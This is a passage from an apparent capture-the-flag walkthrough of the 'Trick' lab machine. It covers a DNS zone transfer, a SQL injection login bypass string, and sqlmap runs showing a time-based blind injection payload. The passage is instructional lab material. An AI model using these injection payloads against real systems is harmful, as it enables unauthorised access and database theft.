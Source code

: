 ```sh
> dig +noall +answer @10.10.11.166 -x 10.10.11.166
166.11.10.10.in-addr.arpa. 604800 IN	PTR	trick.htb.
```

Zone transfer lookup:

```sh
> dig +noall +answer @10.10.11.166 -x 10.10.11.166
166.11.10.10.in-addr.arpa. 604800 IN	PTR	trick.htb.
(13-05-2023 16:15) > dig +noall +answer @10.10.11.166 axfr trick.htb
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.		604800	IN	NS	trick.htb.
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1
preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
```

We found preprod-payroll.trick.htb virtual host!

After visiting it, we see login page.
We can login with:

```
username: admin' or '1' = '1'# 
password: admin
```

Which is textbook sql injection auth bypass.
This isn't everything that can be done using this vulnerability.
We can see in response, that when instead of '1' = '1'
we insert something false, it returns 3, and if it's true it returns 1.

This is known as boolean injection and it allows us to extract
information from database via brute-forcing. The tool for that is
sqlmap. We copy a request we used to bypass auth from burp and use
it with sqlmap.

Injection type detection with sqlmap:

```sh
> sqlmap -r login.req --batch

sqlmap identified the following injection point(s) with a total of 210 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 1451 FROM (SELECT(SLEEP(5)))Idvf) AND 'HRsz'='HRsz&password=admin
---
```

SQLmap identified time-based blind injection, but since we know that boolean-based
one exists (and time-based is more time-consuming to exploit) we will specify
the techique we want to use:
